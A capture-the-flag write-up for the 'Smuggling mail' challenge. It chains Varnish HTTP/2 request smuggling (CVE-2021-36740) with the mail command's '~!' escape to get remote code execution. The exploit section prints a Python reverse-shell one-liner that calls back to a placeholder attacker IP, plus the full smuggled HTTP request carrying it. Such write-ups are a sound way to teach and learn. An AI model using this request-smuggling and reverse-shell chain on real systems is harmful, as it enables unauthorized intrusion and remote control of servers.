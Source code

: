 # Smuggling mail write up

# Recon
## Infomation Gathering
The challenge provided a gzip compressed tar file `smuggling-mail.tar.gz`.
We can find following files in the tarball.
```
smuggling-mail
├── challenge
│   ├── admin
│   │   ├── css
│   │   │   └── styles.css
│   │   ├── index.html
│   │   └── js
│   │       └── scripts.js
│   ├── flag.txt
│   ├── package.json
│   ├── public
│   │   ├── css
│   │   │   └── styles.css
│   │   ├── index.html
│   │   └── js
│   │       └── scripts.js
│   └── server.js
├── config
│   ├── entrypoint.sh
│   ├── hitch.conf
│   ├── supervisord.conf
│   └── varnish.vcl
├── Dockerfile
└── run.sh
```
Threre are several important info you can gather from these files.
- The service is using Varnish cache server with version 6.4.0 from Dockerfile file
- Varnish handles both h2, http/1.1 protocols based on the hitch.conf
- Varnish is checking the access to the endpoints which contains `/admin` string based on varnish.vcl
    - it is also check the http Authorization header matches `^Basic TOKEN$` pattern and TOKEN is randomized.
- There is only **four** real endpoints which are `/`, `/admin`, `/waitlist`, `/admin/alert` based on the server.js.
    - `/` and `/admin` only returns static files
    - `/waitlist` only return a string respond `Sorry, the waitlist is currently closed.`
    - only `/admin/alert` endpoint is interesting because executing a command called `mail`. The `mail` command takes anything client `POST` through the `msg` parameter

## Next Steps
First we check if there is exsits vulnerbilities for the varnish since we know the version is 6.4.0. There is one: **CVE-2021-36740**.
After reading https://labs.detectify.com/2021/08/26/how-to-set-up-docker-for-varnish-http-2-request-smuggling/, I found out I can bypass the varnish access checking using this vulnerbility.

The next thing is checking if there is anything wrong with the `mail` command so I can force it to read flag.txt and return it to me.

At the first glance of the google results, there is no noticeble vulnerbilities for this command.
However, I found out that the command `mail` can actually execute system command using `~!` which is similar to vim's syntax.
So this is all I need to get a reverse shell from the actual docker container.

# exploit(RCE)
Using the http request as the following:
    - the reverse shell one liner is url encoded. the original one linder is `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("THIS.IS.YOUR.IP",THEPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
    - There is a trailing `%0A`(line break) at the end of the payload otherwise the payload maynot work.
```
POST /waitlist HTTP/2
Host: 127.0.0.1:8080
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 1

a

POST /admin/alert HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 346

msg=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22THIS.IS.YOUR.IP%22%2CTHEPORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%%0A
```
use Netcat to listen any port you want in your server which has a public **IP**
```
# cat flag.txt <--- this should give u the flag
flag{t35t\_f14g\_g035\_h3r3} <---- this is not the real flag. Sorry forget to save it.
```
